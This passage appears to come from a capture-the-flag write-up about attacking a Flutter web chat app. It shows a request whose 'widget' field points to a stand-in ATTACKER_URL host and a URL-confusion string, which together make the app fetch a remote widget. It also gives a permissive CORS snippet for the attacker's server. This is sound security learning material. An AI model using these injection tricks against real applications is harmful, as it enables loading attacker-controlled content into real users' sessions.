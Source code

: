 `http://BASE_URL@ATTACKER_URL`

I tried some XSS payloads, hoping that the poll wasn't sanitized. Alas, a Flutter web app is entirely rendered on a `<canvas>`, so rendering unescaped HTML was hopeless.

I then tried to manipulate the `widget` parameter instead.

```json
{
    "type":"widget",
    "widget":"@ATTACKER_URL/test",
    "author":{
        "user":"abcd#c7e80dd5",
        "platform":"web"
    },
    "recipients":["admin#13371337"],
    "data":{
        "message":"test"
    }
}
```

Aha! This causes a traceback!

![](<../.gitbook/assets/image (87).png>)

Note: to avoid CORS issues, use the `Access-Control-Allow-Origin: *` header. For example, in Flask:

```python
@app.after_request
def after_request(response):
  response.headers['Access-Control-Allow-Methods']='*'
  response.headers['Access-Control-Allow-Origin']='*'
  response.headers['Vary']='Origin'
  return response
```

### What Even Is a Remote Flutter Widget?!

Ok so umm... I couldn't find this file signature anywhere, so the first step is to figure out what file format the file is expected to be in. We could download the original `/widget/chatmessage` widget and take a look:

![](<../.gitbook/assets/image (81) (1).png>)

This definitely contains styling and content information, but it isn't in an easily editable format.

&#x20;At this point my teammate kokrui found that this file was compiled with a package called [Remote Flutter Widgets](https://pub.dev/packages/rfw), which allows the loading of widgets hosted on external servers.

![](<../.gitbook/assets/Screenshot 2022-06-02 at 8.22.13 PM.png>)

By following the examples [on GitHub](https://github.com/flutter/packages/tree/main/packages/rfw), we could decode the `chatmessage` widget.&#x20;
